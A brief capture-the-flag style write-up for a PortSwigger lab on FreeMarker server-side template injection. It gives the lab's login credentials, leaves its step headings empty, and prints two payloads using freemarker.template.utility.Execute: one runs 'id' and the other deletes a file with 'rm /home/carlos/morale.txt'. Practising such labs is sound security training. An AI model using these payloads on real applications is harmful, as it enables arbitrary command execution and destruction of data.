



# Server-side template injection using documentation

## This lab is vulnerable to [server-side template injection](https://portswigger.net/web-security/server-side-template-injection). To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`

---

### step 1

### step2

### step3

### HINT: `<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id)}`

`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }`

